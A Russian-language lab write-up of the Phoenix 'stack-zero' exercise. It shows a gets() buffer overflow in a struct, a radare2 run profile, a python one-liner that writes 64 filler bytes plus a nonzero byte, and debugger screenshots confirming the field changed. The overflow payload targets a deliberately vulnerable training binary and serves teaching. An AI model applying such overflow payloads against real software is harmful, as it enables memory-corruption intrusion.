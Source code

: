 Цель задания - изменить значение поля "volatile int changeme" структуры locals.

Структура имеет вид
```  
struct {
  char buffer[64];
  volatile int changeme;
} locals;
```

Уязвимое место в программе 
`gets(locals.buffer);`

Это значит, что необходимо ввести 64 байт мусора и от 1 до 4 байт не 0 значение. (т.к. поле имеет размер int (4 байта))

Для выполнения задания, необходимо заполнить поле произвольным значением отличным от 0 
`locals.changeme != 0`

Пишем профиль для rr2
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSZ
```

Заполняем файл inputfileSZ
```
python3 -c "print('A' * 64 + '\x01', end='')" > inputfileSZ
```

Получилось \
![Содержимое файла](../images/stack-zero/1.png)


Запускаем радар2
r2 -R profileSZ.rr2 -d stack-zero

Состояние стека до \
![alt text](../images/stack-zero/2.png)

Состояние стека после чтения stdin\
![alt text](../images/stack-zero/3.png)

Код проверки \
![alt text](../images/stack-zero/4.png)

Содержимое регистра RAX после\
![alt text](../images/stack-zero/5.png)

Победа\
![alt text](../images/stack-zero/6.png)

